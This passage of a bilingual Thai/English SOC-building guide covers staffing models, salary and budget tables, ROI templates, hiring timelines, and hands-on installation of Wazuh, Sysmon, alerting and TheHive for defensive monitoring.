| CySA+ | Intermediate | ~15,000 THB | High |
| GCIA (SANS) | Advanced | ~200,000 THB | Very High |
| OSCP | Advanced | ~50,000 THB | High |
| CISSP | Management | ~25,000 THB | Strategic |

### Lab Exercise Schedule

| Week | Topic | Lab Duration |
|:---|:---|:---|
| 1-2 | SIEM basics | 4 hrs |
| 3-4 | Log analysis | 4 hrs |
| 5-6 | Incident triage | 6 hrs |
| 7-8 | Threat hunting intro | 6 hrs |

## เอกสารที่เกี่ยวข้อง

- [แผนงานสร้าง SOC](SOC_Building_Roadmap.th.md)
- [งบประมาณและจัดคน](Budget_Staffing.th.md)
- [คู่มือ Tier 1](../05_Incident_Response/Runbooks/Tier1_Runbook.th.md)
- [คู่มือสัมภาษณ์](../05_Incident_Response/Interview_Guide.th.md)


---

## File: 01_SOC_Fundamentals/Budget_Staffing.en.md

# SOC Budget & Staffing Guide

> **Document ID:** BUD-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Audience:** CISO, IT Director, Finance, SOC Manager

---

## How to Use This Guide

This guide helps you build a business case for your SOC with realistic cost estimates, staffing models, and ROI calculations. Adjust numbers to your local market and organization size.

---

## Part 1: Staffing Models

### Model A: Minimal SOC (8×5 Coverage)

```
Mon–Fri, 08:00–17:00 only
After-hours: MSSP or on-call rotation

┌─────────────────────────────┐
│      SOC Manager (1)        │ ← Part-time if small org
├─────────────────────────────┤
│   T1 Analyst (1)  │  T1 (1) │ ← 2 analysts, alternate shifts
├─────────────────────────────┤
│   MSSP (after-hours)        │ ← Outsource nights/weekends
└─────────────────────────────┘

Headcount: 2–3 people
Best for: < 500 employees, low-risk industry
```

### Model B: Extended SOC (16×5 Coverage)

```
Mon–Fri, 07:00–23:00 (two shifts)
After-hours: MSSP or on-call

        Morning Shift (07–15)    Evening Shift (15–23)
       ┌──────────────────┐    ┌──────────────────┐
       │ T1 Analyst (1)   │    │ T1 Analyst (1)   │
       │ T2 Analyst (1)   │    │ T1 Analyst (1)   │
       └──────────────────┘    └──────────────────┘
                 │
         SOC Manager (1) ← Day shift, oversees both
         Detection Eng (1) ← Day shift, creates rules

Headcount: 5–6 people
Best for: 500–2,000 employees, moderate risk
```

### Model C: Full 24×7 SOC

```
24/7/365 coverage (three shifts + weekends)

  Day (08–16)      Swing (16–00)     Night (00–08)
┌──────────────┐  ┌──────────────┐  ┌──────────────┐
│ T1 (1)       │  │ T1 (1)       │  │ T1 (1)       │
│ T2 (1)       │  │ T2 (1)       │  │ T1 (1)       │
└──────────────┘  └──────────────┘  └──────────────┘
       │
 SOC Manager (1) ─── IR Lead (1)
 Detection Eng (1) ─── Threat Intel (1)
 Forensic Analyst (1)

Headcount: 10–15 people (including backfills for PTO/sick)
Best for: 2,000+ employees, regulated industry
```

### Staffing Calculator

```
Minimum analysts for 24/7 = 5.25 FTE per seat

Formula:
  365 days × 24 hours = 8,760 hours/year
  1 FTE ≈ 1,670 working hours/year (after PTO, training, sick leave)
  8,760 ÷ 1,670 = 5.25 FTE per 24/7 seat

For 2 concurrent analysts 24/7:
  5.25 × 2 = 10.5 FTE → hire 11 analysts minimum
```

---

## Part 2: Role Definitions & Salary Ranges

### Thailand Market (2025–2026)

| Role | Level | Salary Range (฿/month) | Total Cost (฿/year) |
|:---|:---:|:---:|:---:|
| SOC Analyst T1 (Junior) | Entry | 25,000–45,000 | 300K–540K |
| SOC Analyst T1 (1–2 yrs) | Junior | 35,000–60,000 | 420K–720K |
| SOC Analyst T2 (3–5 yrs) | Mid | 50,000–80,000 | 600K–960K |
| SOC Analyst T3 / IR (5+ yrs) | Senior | 70,000–120,000 | 840K–1.44M |
| Detection Engineer | Mid-Senior | 60,000–100,000 | 720K–1.2M |
| Threat Intelligence Analyst | Mid | 50,000–90,000 | 600K–1.08M |
| Forensic Analyst | Mid-Senior | 60,000–100,000 | 720K–1.2M |
| SOC Manager | Senior | 80,000–150,000 | 960K–1.8M |
| CISO | Executive | 150,000–350,000 | 1.8M–4.2M |

> **Note:** Add 15–25% for benefits (SSO, health insurance, provident fund, bonuses).

### International Market (USD Reference)

| Role | US Market | UK Market | Singapore |
|:---|:---:|:---:|:---:|
| T1 Analyst | $55–75K | £30–45K | S$48–72K |
| T2 Analyst | $75–110K | £45–70K | S$72–108K |
| SOC Manager | $120–180K | £75–120K | S$120–180K |

---

## Part 3: Budget Templates

### Budget A: Minimal SOC (Open-Source Stack)

| Category | Item | Year 1 (฿) | Year 2+ (฿) |
|:---|:---|:---:|:---:|
| **Staff** | SOC Manager (0.5 FTE) | 480K–900K | 500K–950K |
| | T1 Analyst × 2 | 600K–1.08M | 640K–1.15M |
| **Subtotal Staff** | | **1.08M–1.98M** | **1.14M–2.1M** |
| **Technology** | SIEM (Wazuh — self-hosted) | 0 | 0 |
| | Server hardware / Cloud VMs | 200K–500K | 100K–300K |
| | EDR (Wazuh Agent) | 0 | 0 |
| | Ticketing (TheHive) | 0 | 0 |
| | TI (MISP) | 0 | 0 |
| **Subtotal Technology** | | **200K–500K** | **100K–300K** |
| **Services** | MSSP (after-hours) | 600K–1.2M | 600K–1.2M |
| | Internet / connectivity | 60K–120K | 60K–120K |
| **Subtotal Services** | | **660K–1.32M** | **660K–1.32M** |
| **Training** | Certs + courses (2 people) | 100K–300K | 100K–300K |
| **Contingency** | 10% buffer | 200K–400K | 200K–400K |
| **GRAND TOTAL** | | **2.24M–4.5M** | **2.2M–4.42M** |

### Budget B: Mid-Range SOC (Commercial + Open-Source)

| Category | Item | Year 1 (฿) | Year 2+ (฿) |
|:---|:---|:---:|:---:|
| **Staff** | SOC Manager | 960K–1.8M | 1.0M–1.9M |
| | T1 Analyst × 2 | 840K–1.44M | 900K–1.5M |
| | T2 Analyst × 1 | 600K–960K | 640K–1.0M |
| | Detection Engineer × 1 | 720K–1.2M | 760K–1.3M |
| **Subtotal Staff** | | **3.12M–5.4M** | **3.3M–5.7M** |
| **Technology** | SIEM (Elastic/Sentinel) | 1M–3M | 1M–3M |
| | EDR (Defender/CrowdStrike) | 1M–3M | 1M–3M |
| | Vuln Scanner | 500K–1M | 500K–1M |
| | SOAR | 0–1M | 0–1M |
| **Subtotal Technology** | | **2.5M–8M** | **2.5M–8M** |
| **Services** | MSSP (night shift) | 1M–2M | 1M–2M |
| **Training** | Certs + SANS (4 people) | 400K–800K | 300K–600K |
| **Contingency** | 10% buffer | 700K–1.6M | 700K–1.6M |
| **GRAND TOTAL** | | **7.72M–17.8M** | **7.8M–17.9M** |

### Budget C: Enterprise 24/7 SOC

| Category | Item | Year 1 (฿) |
|:---|:---|:---:|
| **Staff** (10–15 FTE) | All roles | 10M–25M |
| **Technology** | Enterprise stack | 5M–15M |
| **Services** | Consulting, TI feeds | 2M–5M |
| **Training** | SANS, vendor certs | 1M–3M |
| **Facility** | SOC room, monitors | 500K–2M |
| **Contingency** | 10% | 2M–5M |
| **GRAND TOTAL** | | **20.5M–55M** |

---

## Part 4: ROI & Business Case

### Cost of NOT Having a SOC

| Risk | Average Cost per Incident |
|:---|:---:|
| Data breach (ASEAN average) | ฿85–120M ($2.5–3.5M) |
| Ransomware (mid-size org) | ฿10–50M ($300K–1.5M) |
| BEC / wire fraud | ฿3–15M ($100K–500K) |
| Regulatory fine (PDPA) | Up to ฿5M per offense |
| Reputation damage | Unquantifiable |
| Business downtime (per hour) | ฿100K–1M+ |

### ROI Formula

```
ROI = (Risk Reduced - SOC Cost) / SOC Cost × 100%

Example:
  Without SOC: 2 incidents/year × ฿20M average = ฿40M risk
  With SOC (95% detection): 0.1 incidents/year = ฿2M risk
  SOC Cost: ฿8M/year

  Risk Reduced = ฿40M - ฿2M = ฿38M
  ROI = (฿38M - ฿8M) / ฿8M × 100% = 375%
```

### One-Page Business Case Template

```
EXECUTIVE SUMMARY
━━━━━━━━━━━━━━━━━━
Problem:    [Organization] has no dedicated security monitoring.
            Average breach cost in our industry: ฿___M
            Current annual security incidents: ___

Proposal:   Build a [Model A/B/C] SOC
            Estimated cost: ฿___M/year
            Expected risk reduction: ____%

ROI:        ___% return in year 1
            Breakeven after ___ months

Comparison:
┌──────────────────┬────────────┬────────────┬────────────┐
│                  │  Option A  │  Option B  │  Option C  │
│                  │  Minimal   │  Mid-Range │  Enterprise│
├──────────────────┼────────────┼────────────┼────────────┤
│ Annual Cost      │ ฿2–5M     │ ฿8–18M    │ ฿20–55M   │
│ Coverage         │ 8×5        │ 16×5       │ 24×7       │
│ Detection Rate   │ ~60%       │ ~85%       │ ~95%       │
│ MTTR             │ < 8 hrs    │ < 4 hrs    │ < 1 hr     │
│ PDPA Compliance  │ Partial    │ Full       │ Full       │
└──────────────────┴────────────┴────────────┴────────────┘

Recommendation: [Option B] provides optimal balance of cost and coverage.

APPROVAL
□ Approved    □ Revision needed    □ Rejected

Signed: ___________________ Date: ___________
```

---

## Part 5: Hiring Timeline

| Week | Activity |
|:---:|:---|
| 1–2 | Write job descriptions, post on JobThai/LinkedIn/TopDev |
| 3–4 | Screen resumes, schedule interviews |
| 5–6 | Technical interviews (use [Interview Guide](../05_Incident_Response/Interview_Guide.en.md)) |
| 7 | Offers extended |
| 8–9 | Notice period (Thai standard: 30 days) |
| 10–12 | Onboarding + training (use [Training Path](Analyst_Training_Path.en.md)) |

### Where to Post (Thailand)

| Platform | Cost | Best For |
|:---|:---|:---|
| JobThai | ฿3–8K/post | Thai market, entry-level |
| LinkedIn | ฿15–30K/post | Mid-senior, international |
| TopDev | ฿5–10K/post | Tech talent |
| University job fairs | Free–฿20K | Fresh graduates |
| Cybersecurity communities | Free | Passionate candidates |
| SANS/THCert events | Free | Specialized talent |

---

## Related Documents

- [SOC Building Roadmap](SOC_Building_Roadmap.en.md)
- [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md)
- [Interview Guide](../05_Incident_Response/Interview_Guide.en.md)
- [Analyst Training Path](Analyst_Training_Path.en.md)
- [SLA Template](../06_Operations_Management/SLA_Template.en.md)


---

## File: 01_SOC_Fundamentals/Budget_Staffing.th.md

# คู่มืองบประมาณและจัดคน SOC

> **รหัสเอกสาร:** BUD-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **กลุ่มเป้าหมาย:** CISO, ผู้บริหาร IT, ฝ่ายการเงิน

---

## ส่วนที่ 1: โมเดลจัดคน

### Model A: SOC ขนาดเล็ก (8×5)

```
จ–ศ 08:00–17:00 | นอกเวลา: MSSP

SOC Manager (1) ← part-time ได้
T1 Analyst (2)
MSSP (นอกเวลา)

คน: 2–3 | เหมาะ: <500 พนักงาน
```

### Model B: SOC ขนาดกลาง (16×5)

```
จ–ศ 07:00–23:00 (2 กะ) | นอกเวลา: MSSP

กะเช้า: T1 + T2
กะบ่าย: T1 × 2
+ SOC Manager + Detection Engineer

คน: 5–6 | เหมาะ: 500–2,000 พนักงาน
```

### Model C: SOC 24/7

```
3 กะ + backup = 10–15 คน
เหมาะ: 2,000+ พนักงาน, อุตสาหกรรมมีกฎระเบียบ
```

### สูตรคำนวณ

```
24/7 = 8,760 ชม./ปี
1 คน = ~1,670 ชม./ปี (หลังหักลาพัก, ฝึก)
ต้องการ 5.25 คน ต่อ 1 ที่นั่ง 24/7

2 คนตลอด 24/7 = 11 คนขึ้นต่ำ
```

---

## ส่วนที่ 2: เงินเดือน (ตลาดไทย)

| ตำแหน่ง | ระดับ | เงินเดือน (฿/เดือน) | ต่อปี |
|:---|:---:|:---:|:---:|
| SOC Analyst T1 (มือใหม่) | Entry | 25K–45K | 300K–540K |
| SOC Analyst T1 (1–2 ปี) | Junior | 35K–60K | 420K–720K |
| SOC Analyst T2 (3–5 ปี) | Mid | 50K–80K | 600K–960K |
| SOC Analyst T3/IR (5+ ปี) | Senior | 70K–120K | 840K–1.44M |
| Detection Engineer | Mid-Senior | 60K–100K | 720K–1.2M |
| Threat Intel Analyst | Mid | 50K–90K | 600K–1.08M |
| SOC Manager | Senior | 80K–150K | 960K–1.8M |
| CISO | ผู้บริหาร | 150K–350K | 1.8M–4.2M |

> เพิ่ม 15–25% สำหรับสวัสดิการ (ประกันสังคม, ประกันสุขภาพ, PVD, โบนัส)

---

## ส่วนที่ 3: งบประมาณ

### Budget A: SOC ประหยัด (Open-Source)

| หมวด | ปีแรก (฿) |
|:---|:---:|
| คน (Manager 0.5 + T1 × 2) | 1.08M–1.98M |
| เทคโนโลยี (Wazuh + VMs) | 200K–500K |
| บริการ (MSSP + internet) | 660K–1.32M |
| ฝึกอบรม | 100K–300K |
| สำรอง 10% | 200K–400K |
| **รวม** | **2.24M–4.5M** |

### Budget B: SOC กลาง (เชิงพาณิชย์)

| หมวด | ปีแรก (฿) |
|:---|:---:|
| คน (Manager + T1×2 + T2 + DetEng) | 3.12M–5.4M |
| เทคโนโลยี (SIEM + EDR + Vuln) | 2.5M–8M |
| MSSP (กะดึก) | 1M–2M |
| ฝึกอบรม SANS | 400K–800K |
| สำรอง 10% | 700K–1.6M |
| **รวม** | **7.72M–17.8M** |

### Budget C: SOC Enterprise 24/7

| หมวด | ปีแรก (฿) |
|:---|:---:|
| คน (10–15 คน) | 10M–25M |
| เทคโนโลยี | 5M–15M |
| บริการ + ฝึก + ห้อง + สำรอง | 5.5M–15M |
| **รวม** | **20.5M–55M** |

---

## ส่วนที่ 4: ROI & Business Case

### ต้นทุนของการ "ไม่มี SOC"

| ความเสี่ยง | ต้นทุนเฉลี่ย/ครั้ง |
|:---|:---:|
| Data breach (ASEAN) | ฿85–120M |
| Ransomware | ฿10–50M |
| BEC/โอนเงินหลอก | ฿3–15M |
| ค่าปรับ PDPA | สูงสุด ฿5M/ครั้ง |
| Downtime (ต่อชั่วโมง) | ฿100K–1M+ |

### สูตร ROI

```
ROI = (ความเสี่ยงลด - ต้นทุน SOC) / ต้นทุน SOC × 100%

ตัวอย่าง:
  ไม่มี SOC: 2 เหตุ/ปี × ฿20M = ฿40M ความเสี่ยง
  มี SOC (95%): 0.1 เหตุ/ปี = ฿2M
  ต้นทุน SOC: ฿8M/ปี
  ROI = (฿38M - ฿8M) / ฿8M = 375%
```

---

## ส่วนที่ 5: Timeline การจ้าง

| สัปดาห์ | กิจกรรม |
|:---:|:---|
| 1–2 | เขียน JD, โพสต์ JobThai/LinkedIn |
| 3–4 | คัดกรอง, นัดสัมภาษณ์ |
| 5–6 | สัมภาษณ์เทคนิค (ใช้ [คู่มือสัมภาษณ์](../05_Incident_Response/Interview_Guide.th.md)) |
| 7 | ยื่นข้อเสนอ |
| 8–9 | Notice period (30 วัน) |
| 10–12 | Onboarding + ฝึกอบรม |

---

## แผนงบประมาณรายละเอียด

### หมวดต้นทุน

| หมวด | รายการ | ค่าใช้จ่ายโดยประมาณ (ต่อปี) |
|:---|:---|:---|
| **บุคลากร** | เงินเดือน + สวัสดิการ | 60–70% ของ budget |
| **เทคโนโลยี** | License fees, infra, SaaS | 20–25% |
| **ฝึกอบรม** | Cert, training, conference | 5–10% |
| **ดำเนินงาน** | สำนักงาน, อุปกรณ์, ค่าสาธารณูปโภค | 3–5% |

### ตารางเงินเดือน (ตลาดไทย — ประมาณ)

| ตำแหน่ง | Junior | Mid-Level | Senior |
|:---|:---:|:---:|:---:|
| **SOC Analyst** | 25,000–35,000 ฿ | 40,000–60,000 ฿ | 65,000–90,000 ฿ |
| **Detection Engineer** | 35,000–50,000 ฿ | 55,000–80,000 ฿ | 85,000–120,000 ฿ |
| **Incident Responder** | 30,000–45,000 ฿ | 50,000–75,000 ฿ | 80,000–110,000 ฿ |
| **SOC Manager** | — | 70,000–100,000 ฿ | 100,000–150,000 ฿ |
| **CISO** | — | — | 150,000–300,000 ฿ |

### ROI Calculation

```
ROI = (ค่าเสียหายที่ป้องกันได้ - ต้นทุน SOC) / ต้นทุน SOC × 100

ตัวอย่าง:
- ค่าเสียหาย data breach เฉลี่ย (ไทย): ~50 ล้านบาท
- ต้นทุน SOC ต่อปี: ~5 ล้านบาท
- ป้องกัน breach ได้ 1 ครั้ง/ปี = ROI 900%
```

## Staffing Model ตามขนาดองค์กร

### Model A: SOC ขนาดเล็ก (3–5 FTE)

| บทบาท | จำนวน | เวลาทำงาน |
|:---|:---:|:---|
| SOC Manager (เล่นหลายบท) | 1 | 8/5 |
| Tier 1/2 Analyst | 2-3 | 8/5 + on-call |
| Detection Engineer (part-time) | 0.5 | ร่วมกับ IT |
| **Coverage**: 8/5 + on-call | | |

### Model B: SOC ขนาดกลาง (8–12 FTE)

| บทบาท | จำนวน | เวลาทำงาน |
|:---|:---:|:---|
| SOC Manager | 1 | 8/5 |
| Shift Lead | 2 | 16/5 |
| Tier 1 Analyst | 4 | 16/5 + on-call |
| Tier 2 Analyst | 2 | 8/5 + on-call |
| Detection Engineer | 1 | 8/5 |
| **Coverage**: 16/5 + on-call | | |

### Model C: SOC ขนาดใหญ่ (15+ FTE)

| บทบาท | จำนวน | เวลาทำงาน |
|:---|:---:|:---|
| SOC Manager | 1 | 8/5 |
| Shift Lead | 3–4 | 24/7 |
| Tier 1 Analyst | 6–8 | 24/7 |
| Tier 2 Analyst | 3–4 | 16/7 |
| Tier 3 / Hunt | 1–2 | 8/5 |
| Detection Engineer | 2 | 8/5 |
| **Coverage**: 24/7 | | |

## Hiring Pipeline

```mermaid
graph LR
    JD["📝 JD"] --> Post["📢 ประกาศ"]
    Post --> Screen["📋 คัดกรอง"]
    Screen --> Tech["💻 ทดสอบ"]
    Tech --> Interview["🤝 สัมภาษณ์"]
    Interview --> Offer["📃 เสนองาน"]
    Offer --> Onboard["🎯 Onboarding"]
```

## Staffing Models

### Team Size by Organization Scale

| Organization Size | SOC Tier | Min Staff | Recommended |
|:---|:---|:---|:---|
| < 500 employees | Hybrid/MSSP | 2-3 | 4-5 |
| 500-2,000 | Basic SOC | 4-6 | 8-10 |
| 2,000-10,000 | Full SOC | 8-12 | 15-20 |
| 10,000+ | Advanced SOC | 15-25 | 25-40 |

### Role-based Salary Guide (ประมาณ, THB/เดือน)

| Role | Junior | Mid | Senior |
|:---|:---|:---|:---|
| SOC Analyst | 25-35K | 35-55K | 55-80K |
| Incident Responder | 35-50K | 50-75K | 75-120K |
| Threat Hunter | 40-60K | 60-90K | 90-150K |
| SOC Manager | - | 80-120K | 120-200K |

### Budget Allocation Framework

| Category | % of Budget | Includes |
|:---|:---|:---|
| Personnel | 55-65% | Salary, benefits, training |
| Technology | 20-30% | SIEM, EDR, SOAR, TI |
| Operations | 5-10% | Cloud, infra, maintenance |
| Training | 5-10% | Certs, conferences, labs |

### Overtime & Burnout Prevention

| Metric | Warning | Action |
|:---|:---|:---|
| OT > 20 hrs/mo | ⚠️ | Review workload |
| Turnover > 15% | 🔴 | Retention plan |
| Satisfaction < 3/5 | ⚠️ | Team survey |

## เอกสารที่เกี่ยวข้อง

- [แผนงานสร้าง SOC](SOC_Building_Roadmap.th.md)
- [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md)
- [คู่มือสัมภาษณ์](../05_Incident_Response/Interview_Guide.th.md)
- [เส้นทางฝึก Analyst](Analyst_Training_Path.th.md)


---

## File: 01_SOC_Fundamentals/Infrastructure_Setup.en.md

# SOC Infrastructure Setup Guide — Hands-On Installation

> **Document ID:** INFRA-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Prerequisite:** Read [Technology Stack Guide](Technology_Stack.en.md) to choose your stack

---

## This Guide Covers

Step-by-step installation of the **Open-Source Stack (Stack A)** using Wazuh. This is the recommended starting point for beginners — zero cost, full functionality.

> If you chose Microsoft Sentinel (Stack B), skip to [Sentinel Quick Setup](#sentinel-quick-setup).

---

## Part 1: Wazuh All-in-One Installation

### Requirements

| Item | Minimum | Recommended |
|:---|:---|:---|
| OS | Ubuntu 22.04 LTS / CentOS 8 | Ubuntu 22.04 LTS |
| CPU | 4 cores | 8 cores |
| RAM | 8 GB | 16 GB |
| Disk | 50 GB | 200 GB+ (depends on log volume) |
| Network | Static IP, port 1514/1515/443 open | Dedicated VLAN |

### Step 1: Install Wazuh (Single-Node)

```bash
# Download and run Wazuh installer (automated)
curl -sO https://packages.wazuh.com/4.9/wazuh-install.sh
curl -sO https://packages.wazuh.com/4.9/config.yml

# Edit config.yml — set your server IP
cat > config.yml << 'EOF'
nodes:
  indexer:
    - name: wazuh-indexer
      ip: "YOUR_SERVER_IP"
  server:
    - name: wazuh-server
      ip: "YOUR_SERVER_IP"
  dashboard:
    - name: wazuh-dashboard
      ip: "YOUR_SERVER_IP"
EOF

# Run installer (takes 5-10 minutes)
sudo bash wazuh-install.sh -a

# ⚠️ SAVE the admin password printed at the end!
# Access dashboard: https://YOUR_SERVER_IP
# Username: admin
# Password: (shown in output)
```

### Step 2: Verify Installation

```bash
# Check all services running
sudo systemctl status wazuh-manager
sudo systemctl status wazuh-indexer
sudo systemctl status wazuh-dashboard

# Check Wazuh API
curl -k -u admin:PASSWORD https://localhost:55000/?pretty

# Open browser → https://YOUR_SERVER_IP
# Login → You should see the Wazuh dashboard
```

### Step 3: Deploy Agents on Endpoints

#### Windows Agent
```powershell
# Download from Wazuh dashboard → Agents → Deploy new agent
# Or use PowerShell:
Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.9.0-1.msi -OutFile wazuh-agent.msi

# Install with server address
msiexec.exe /i wazuh-agent.msi /q WAZUH_MANAGER="YOUR_SERVER_IP" WAZUH_AGENT_GROUP="default"

# Start service
net start WazuhSvc
```

#### Linux Agent
```bash
# Ubuntu/Debian
curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | sudo gpg --dearmor -o /usr/share/keyrings/wazuh.gpg
echo "deb [signed-by=/usr/share/keyrings/wazuh.gpg] https://packages.wazuh.com/4.x/apt/ stable main" | sudo tee /etc/apt/sources.list.d/wazuh.list
sudo apt update && sudo apt install wazuh-agent -y

# Configure manager address
sudo sed -i 's/MANAGER_IP/YOUR_SERVER_IP/' /var/ossec/etc/ossec.conf

# Start agent
sudo systemctl daemon-reload
sudo systemctl enable wazuh-agent
sudo systemctl start wazuh-agent
```

### Step 4: Verify Agents Connected

```bash
# On Wazuh server — list connected agents
sudo /var/ossec/bin/agent_control -l

# Expected output:
# ID: 001, Name: web-server-01, Status: Active
# ID: 002, Name: dc-01, Status: Active
```

---

## Part 2: Configure Log Sources

### Active Directory Logs → Wazuh

On each Domain Controller, configure the Wazuh agent:

```xml
<!-- Add to agent ossec.conf on DC -->
<ossec_config>
  <localfile>
    <location>Security</location>
    <log_format>eventchannel</log_format>
    <query>Event/System[EventID=4624 or EventID=4625 or EventID=4648 or
           EventID=4672 or EventID=4688 or EventID=4720 or EventID=4726 or
           EventID=4732 or EventID=4756 or EventID=1102]</query>
  </localfile>
  <localfile>
    <location>Microsoft-Windows-Sysmon/Operational</location>
    <log_format>eventchannel</log_format>
  </localfile>
</ossec_config>
```

### Firewall (Syslog) → Wazuh

```xml
<!-- Add to Wazuh server ossec.conf -->
<ossec_config>
  <remote>
    <connection>syslog</connection>
    <port>514</port>
    <protocol>udp</protocol>
    <allowed-ips>FIREWALL_IP</allowed-ips>
  </remote>
</ossec_config>
```

On your firewall, configure syslog output to `WAZUH_SERVER_IP:514`.

### Linux Servers → Wazuh

```xml
<!-- Auto-monitored on agent install, but add custom logs: -->
<ossec_config>
  <localfile>
    <location>/var/log/auth.log</location>
    <log_format>syslog</log_format>
  </localfile>
  <localfile>
    <location>/var/log/nginx/access.log</location>
    <log_format>syslog</log_format>
  </localfile>
</ossec_config>
```

---

## Part 3: Install Sysmon (Windows Enhanced Logging)

Sysmon dramatically improves Windows detection capability:

```powershell
# Download Sysmon
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile Sysmon.zip
Expand-Archive Sysmon.zip

# Download recommended config (SwiftOnSecurity)
Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile sysmonconfig.xml

# Install Sysmon with config
.\Sysmon64.exe -accepteula -i sysmonconfig.xml

# Verify
Get-Service Sysmon64
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 5
```

---

## Part 4: Import Sigma Rules into Wazuh

```bash
# Wazuh uses its own rule format, but you can create custom rules
# based on Sigma detection logic

# Example: Create a brute force detection rule
sudo cat >> /var/ossec/etc/rules/local_rules.xml << 'EOF'
<group name="authentication_failures,">
  <rule id="100001" level="10" frequency="10" timeframe="300">
    <if_matched_sid>60122</if_matched_sid>
    <description>SOC: Brute force - 10+ login failures in 5 min (PB-04)</description>
    <mitre>
      <id>T1110</id>
    </mitre>
    <group>attack,brute_force,PB-04</group>
  </rule>
</group>
EOF

# Restart to apply
sudo systemctl restart wazuh-manager

# Validate rules
sudo /var/ossec/bin/wazuh-logtest
```

---

## Part 5: Set Up Alert Notifications

### Email Alerts

```xml
<!-- Add to Wazuh server ossec.conf -->
<ossec_config>
  <global>
    <email_notification>yes</email_notification>
    <smtp_server>smtp.gmail.com</smtp_server>
    <email_from>soc-alerts@company.com</email_from>
    <email_to>soc-team@company.com</email_to>
    <email_maxperhour>100</email_maxperhour>
  </global>
  
  <email_alerts>
    <email_to>soc-team@company.com</email_to>
    <level>10</level>
  </email_alerts>
</ossec_config>
```

### Slack Integration

```bash
# Create a Wazuh integration script for Slack
sudo cat > /var/ossec/integrations/custom-slack.py << 'PYEOF'
#!/usr/bin/env python3
import sys, json, requests

SLACK_WEBHOOK = "https://hooks.slack.com/services/YOUR/WEBHOOK/URL"

def main():
    alert_file = open(sys.argv[1])
    alert = json.load(alert_file)
    
    msg = {
        "text": f"🚨 *SOC Alert (Level {alert['rule']['level']})*\n"
                f"Rule: {alert['rule']['description']}\n"
                f"Agent: {alert.get('agent', {}).get('name', 'N/A')}\n"
                f"Time: {alert['timestamp']}"
    }
    requests.post(SLACK_WEBHOOK, json=msg)

if __name__ == "__main__":
    main()
PYEOF

chmod 750 /var/ossec/integrations/custom-slack.py
chown root:wazuh /var/ossec/integrations/custom-slack.py
```

---

## Part 6: TheHive Installation (Ticketing)

```bash
# Install prerequisites
sudo apt install -y openjdk-11-jre-headless

# Add TheHive repository
wget -qO- https://raw.githubusercontent.com/StrangeBeeCorp/Security/main/PGP%20keys/packages.key | sudo gpg --dearmor -o /usr/share/keyrings/strangebee-archive-keyring.gpg
echo 'deb [signed-by=/usr/share/keyrings/strangebee-archive-keyring.gpg] https://deb.strangebee.com thehive-5.x main' | sudo tee /etc/apt/sources.list.d/strangebee.list

sudo apt update && sudo apt install -y thehive

# Start TheHive
sudo systemctl enable thehive
sudo systemctl start thehive

# Access: http://YOUR_SERVER_IP:9000
# Default login: admin@thehive.local / secret
# ⚠️ CHANGE PASSWORD IMMEDIATELY
```

---

## Sentinel Quick Setup

If you chose **Stack B (Microsoft)**:

```
Step 1: Azure Portal → Create resource → Microsoft Sentinel
Step 2: Create Log Analytics Workspace
Step 3: Add Sentinel to workspace
Step 4: Data connectors → Enable:
        ✅ Microsoft 365 Defender
        ✅ Azure Active Directory
        ✅ Azure Activity
        ✅ Microsoft Defender for Cloud
Step 5: Analytics → Rule templates → Enable recommended rules
Step 6: Done! You have a SIEM.
```

> Time estimate: **30 minutes** if you have Azure admin access.

---

## Verification Checklist

After setup, verify everything works:

```
□ Wazuh dashboard accessible at https://SERVER_IP
□ At least 3 agents connected and active
□ Events visible in dashboard (real-time)
□ AD login events appearing (Event ID 4624/4625)
□ Firewall logs arriving via syslog
□ Sysmon installed on Windows endpoints
□ Custom brute-force rule triggers on test
□ Email/Slack alerts received
□ TheHive accessible and login works
□ Take a screenshot and celebrate! 🎉
```

---

## Troubleshooting

| Problem | Solution |
|:---|:---|
| Agent can't connect | Check firewall: port 1514/1515 open? |
| No data in dashboard | Wait 5 min, then check agent status |
| Syslog not arriving | Check `tcpdump -i any port 514` on Wazuh server |
| High disk usage | Reduce log retention or add disk |
| Dashboard slow | Increase indexer RAM to 16 GB |
| Agent shows "Disconnected" | Restart agent: `systemctl restart wazuh-agent` |

---

## Related Documents

- [SOC Building Roadmap](SOC_Building_Roadmap.en.md)
- [Technology Stack Guide](Technology_Stack.en.md)
- [Log Source Onboarding](../06_Operations_Management/Log_Source_Onboarding.en.md)
- [Detection Rules Index](../08_Detection_Engineering/README.md)


---

## File: 01_SOC_Fundamentals/Infrastructure_Setup.th.md

# คู่มือติดตั้ง SOC Infrastructure — Hands-On

> **รหัสเอกสาร:** INFRA-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **อ่านก่อน:** [คู่มือเลือก Technology Stack](Technology_Stack.th.md)

---

## คู่มือนี้ครอบคลุม

การติดตั้ง **Open-Source Stack (Stack A)** ด้วย Wazuh ทีละขั้น — ค่าใช้จ่ายศูนย์ ฟังก์ชันครบ

---

## ส่วนที่ 1: ติดตั้ง Wazuh

### ความต้องการขั้นต่ำ
- Ubuntu 22.04 LTS
- 4 cores / 8 GB RAM / 50 GB disk
- Static IP

### ติดตั้ง

```bash
# ดาวน์โหลดและรัน
curl -sO https://packages.wazuh.com/4.9/wazuh-install.sh
curl -sO https://packages.wazuh.com/4.9/config.yml

# แก้ config.yml — ใส่ IP เซิร์ฟเวอร์
# แล้วรัน:
sudo bash wazuh-install.sh -a

# ⚠️ จดรหัส admin ที่แสดงตอนจบ!
# เข้า: https://YOUR_SERVER_IP
```

### ตรวจสอบ
```bash
sudo systemctl status wazuh-manager
sudo systemctl status wazuh-indexer
sudo systemctl status wazuh-dashboard
```

---

## ส่วนที่ 2: ติดตั้ง Agent

### Windows
```powershell
# ดาวน์โหลดจาก Wazuh Dashboard → Agents → Deploy
# หรือ:
